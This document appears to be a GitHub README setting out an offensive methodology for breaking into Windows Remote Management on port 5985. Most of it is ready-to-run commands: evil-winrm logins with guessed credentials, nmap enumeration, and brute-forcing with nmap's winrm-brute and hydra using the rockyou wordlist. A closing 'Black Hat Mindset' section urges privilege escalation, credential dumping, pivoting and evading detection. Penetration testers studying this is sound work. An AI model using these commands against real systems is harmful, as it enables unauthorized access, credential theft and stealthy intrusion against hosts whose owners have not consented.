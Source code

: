 # Basic Methodology - Port 5985 (WINRM)

This README provides a methodology for exploiting Windows Remote Management (WinRM) services running on port 5985. The focus is on connecting to WinRM using evil-winrm with known or guessed credentials and leveraging weak authentication to gain remote access. 

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Connecting to WinRM](#connecting-to-winrm)
- [Enumerating and Exploiting WinRM](#enumerating-and-exploiting-winrm)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

WinRM, running on port 5985 (HTTP) or 5986 (HTTPS), is a Microsoft protocol for remote management of Windows systems. It is a common target due to weak or reused credentials and misconfigurations that allow unauthorized access. This guide focuses on connecting to WinRM on port 5985 using evil-winrm, a tool designed for exploiting WinRM services, and exploiting misconfigured setups.

## Setup and Prerequisites

To begin, ensure the following:

### Environment
- A Linux host (e.g., Kali Linux) with network access to the target WinRM server.

### Tools
- Install evil-winrm (e.g., `sudo gem install evil-winrm` or available in Kali Linux).
- Install Nmap with NSE scripts (e.g., `sudo apt install nmap`) for enumeration.

### Requirements
- Target Information: Obtain the target IP address (e.g., 192.168.1.100).
- Credential Lists: Prepare a list of usernames (e.g., administrator, user) and passwords, focusing on commonly reused credentials (e.g., Password123, admin).

## Connecting to WinRM

Use evil-winrm to attempt connecting to the WinRM service with known or guessed credentials.

### Basic Command
```bash
evil-winrm -i <IP address> -u <username> -p <password>
```

### Example
```bash
evil-winrm -i 192.168.1.100 -u administrator -p Password123
```

### Behavior
- If credentials are valid, evil-winrm establishes an interactive shell session on the target system.
- If credentials are incorrect, the connection fails with an error (e.g., Authentication failed).

### Notes
- The administrator account is a common target due to its high privileges.
- Test credentials reused from other services (e.g., domain accounts, RDP) or default passwords.
- If the target uses a domain account, specify the domain with `-u DOMAIN\username` (e.g., `-u CORP\administrator`).
- Use `-S` for HTTPS (port 5986) if the server requires it (e.g., `evil-winrm -i 192.168.1.100 -u administrator -p Password123 -S`).

## Enumerating and Exploiting WinRM

Enumerate the WinRM service to identify vulnerabilities and exploit misconfigurations.

### Verify WinRM Service
```bash
nmap -p 5985 192.168.1.100
```
Confirms if port 5985 is open and running WinRM.

### Enumerate with Nmap NSE Scripts

#### List Available WinRM NSE Scripts
```bash
ls -la /usr/share/nmap/scripts | grep "winrm"
```

Example Output:
```
-rw-r--r-- 1 root root  12345 Jan 10 2025 winrm-brute.nse
```
Lists WinRM-related NSE scripts (note: limited WinRM-specific scripts; general auth scripts may apply).

#### Brute-Force Credentials
```bash
nmap --script winrm-brute -p 5985 192.168.1.100
```
Attempts to guess credentials using default or provided username/password lists.

#### General Authentication Enumeration
```bash
nmap --script auth -p 5985 192.168.1.100
```
Checks for authentication misconfigurations or weak settings.

### Brute-Force with Other Tools

Use hydra for credential guessing:
```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt winrm://192.168.1.100:5985
```
Outputs valid credentials if successful.

### Notes
- Ensure Nmap is updated to include the latest NSE scripts (`nmap --script-updatedb`).
- Use `--script-args` to provide custom username/password lists for winrm-brute (e.g., `--script-args userdb=users.txt,passdb=pass.txt`).
- Look for misconfigurations like unrestricted WinRM access or weak authentication methods.
- Once connected via evil-winrm, execute commands like `whoami`, `net user`, or upload payloads for further exploitation.

## Black Hat Mindset

To exploit WinRM effectively, think like an attacker:

- **Exploit Weak Credentials**: Target reused or default credentials, especially for the administrator account.
- **Enumerate Aggressively**: Use Nmap and other tools to identify open ports, authentication methods, and misconfigurations.
- **Maximize Access**: Once inside, escalate privileges, dump credentials (e.g., via evil-winrm's menu for PS commands), or pivot to other systems.
- **Evade Detection**: Minimize brute-force attempts and use stealthy enumeration to avoid triggering monitoring or account lockouts.

## Resources

- [Microsoft WinRM Documentation](https://docs.microsoft.com/en-us/windows/win32/winrm/portal)
- [evil-winrm GitHub Repository](https://github.com/Hackplayers/evil-winrm)
- [Nmap NSE Documentation](https://nmap.org/book/nse.html)
- [WinRM Security Best Practices](https://docs.microsoft.com/en-us/windows/win32/winrm/security-considerations-for-winrm)

